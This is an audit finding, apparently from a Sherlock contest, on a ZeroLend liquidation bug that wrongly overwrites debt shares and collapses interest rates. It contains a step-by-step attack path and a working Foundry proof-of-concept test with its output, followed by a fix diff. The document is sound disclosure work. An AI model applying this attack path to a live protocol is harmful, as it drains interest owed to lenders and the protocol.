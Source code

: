 Modern Garnet Cyborg

High

# Attacker may manipulate borrow interest rates of the protocol

### Summary

Incorrect state update during liquidation will cause loss of assets for lenders and protocol as attacker will open multiple positions, self liquidate on smaller position to trigger an incorrect state update, and subsequently repay debt with radically smaller interest rate.

### Root Cause

In [`LiquidationLogic.sol:246`](https://github.com/sherlock-audit/2024-06-new-scope/blob/main/zerolend-one/contracts/core/pool/logic/LiquidationLogic.sol#L246) the `vars.debtReserveCache.nextDebtShares` is set to `burnt` value, instead it should have been decremented by `burnt`.

### Internal pre-conditions

1. Any liquidation will trigger incorrect `vars.debtReserveCache.nextDebtShares` update. 
2. This will consequently result in incorrect borrow and lending interest rates.

### External pre-conditions

_No response_

### Attack Path

1. Attacker borrows X amount on account A.
2. Attacker borrows relatively small amount on Account B.
3. After some time attacker triggers liquidation of Account B.
4. Liquidation will trigger incorrect state update in LiquidationLogic._repayDebtTokens() function.
5. Borrow interest rate and lending interest rate will be incorrect.
6. Attacker repays debt with significantly less amount of interest needed to pay on Account B.
7. All other borrowers will also share this incorrect and reduced interest rate. 

### Impact

The protocol suffers 100% loss in expected interest revenue. The attacker and other borrowers will have proportionally less to pay for interest.

### PoC

```solidity
// To demonstrate this issue, place the following test in the ./test/forge/core/pool/PoolLiquidationTests.t.sol:
// and execute with the following command: forge test --mt testLiquidationDebtSharesUpdate -vv
function testLiquidationDebtSharesUpdate() external {
    address john = address(3);
    uint256 supplyAmountAJohn = 10000 ether;
    uint256 mintAmountAJohn = 10000 ether;
    uint256 borrowAmountBJohn = 500 ether; 

    _mintAndApprove(alice, tokenA, mintAmountA, address(pool)); // alice 1000 tokenA
    _mintAndApprove(john, tokenA, mintAmountAJohn, address(pool)); // john 10000 tokenA
    _mintAndApprove(bob, tokenB, mintAmountB, address(pool)); // bob 2000 tokenB

    vm.startPrank(alice);
    pool.supplySimple(address(tokenA), alice, supplyAmountA, 0); // 550 tokenA alice supply
    vm.stopPrank();

    vm.startPrank(bob);
    pool.supplySimple(address(tokenB), bob, supplyAmountB, 0); // 750 tokenB bob supply
    vm.stopPrank();

    vm.startPrank(john);
    pool.supplySimple(address(tokenA), john, supplyAmountAJohn, 0); // 10_000 tokenA john supply
    vm.stopPrank();

    vm.startPrank(alice);
    pool.borrowSimple(address(tokenB), alice, borrowAmountB, 0); // 100 tokenB alice borrow
    vm.stopPrank();

    vm.startPrank(john);
    pool.borrowSimple(address(tokenB), john, borrowAmountBJohn, 0); // 500 tokenB john borrow
    vm.stopPrank();

    assertEq(tokenB.balanceOf(alice), borrowAmountB);
    assertEq(tokenB.balanceOf(john), borrowAmountBJohn);

    oracleA.updateAnswer(5e3);


    (, uint256 totalDebtBase,,,,) = pool.getUserAccountData(alice, 0);
    

    DataTypes.ReserveData memory initialReserveData = pool.getReserveData(address(tokenB));

    vm.startPrank(bob);
    vm.expectEmit(true, true, true, false);
    emit PoolEventsLib.LiquidationCall(address(tokenA), address(tokenB), pos, 0, 0, bob);
    pool.liquidateSimple(address(tokenA), address(tokenB), pos, 10); // liquidate 10 wei
    vm.stopPrank();

    (, uint256 totalDebtBaseNew,,,,) = pool.getUserAccountData(alice, 0);

    assertTrue(totalDebtBase > totalDebtBaseNew);

    DataTypes.ReserveData memory updatedReserveData = pool.getReserveData(address(tokenB));
    console.log("Initial borrow rate: ", initialReserveData.borrowRate);
    console.log("Initial liquidity rate: ", initialReserveData.liquidityRate);
    console.log("------------------------------------------------------");
    console.log("Updated borrow rate: ", updatedReserveData.borrowRate);
    console.log("Updated liquidity rate: ", updatedReserveData.liquidityRate);

    assertApproxEqRel(initialReserveData.borrowRate, updatedReserveData.borrowRate, 1e13, "Due to small liquidation, rates should be approximately equal");
  }

// ================================================
// Test output indicates that liquidating small position
// ================================================
// Ran 1 test for test/forge/core/pool/PoolLiquidationTests.t.sol:PoolLiquidationTest
// [FAIL. Reason: Due to small liquidation, rates should be approximately equal: 256792452830188679245283019 !~= 9929079 (max delta: 0.0010000000000000%, real delta: 2586266589581860303814.2202313024198921%)] testLiquidationDebtSharesUpdate() (gas: 1281028)
// Logs:
//   Initial borrow rate:  256792452830188679245283019
//   Initial liquidity rate:  205433962264150943396226415
//   ------------------------------------------------------
//   Updated borrow rate:  9929079
//   Updated liquidity rate:  0
//
// Suite result: FAILED. 0 passed; 1 failed; 0 skipped; finished in 8.09ms (3.47ms CPU time)
//
// Ran 1 test suite in 42.17ms (8.09ms CPU time): 0 tests passed, 1 failed, 0 skipped (1 total tests)
```

### Mitigation

To fix this issue, the `LiquidationLogic::_repayDebtTokens` function should be modified to correctly update the debt shares state:

```diff
  function _repayDebtTokens(
    DataTypes.ExecuteLiquidationCallParams memory params,
    LiquidationCallLocalVars memory vars,
    mapping(bytes32 => DataTypes.PositionBalance) storage balances,
    DataTypes.ReserveSupplies storage totalSupplies
  ) internal {
    uint256 burnt = balances[params.position].repayDebt(
	    totalSupplies,
	    vars.actualDebtToLiquidate,
	    vars.debtReserveCache.nextBorrowIndex
	   );
-    vars.debtReserveCache.nextDebtShares = burnt;
+    vars.debtReserveCache.nextDebtShares -= burnt;
  }
```

By subtracting the burnt amount instead of overwriting the total, the debt shares will be correctly updated after a liquidation.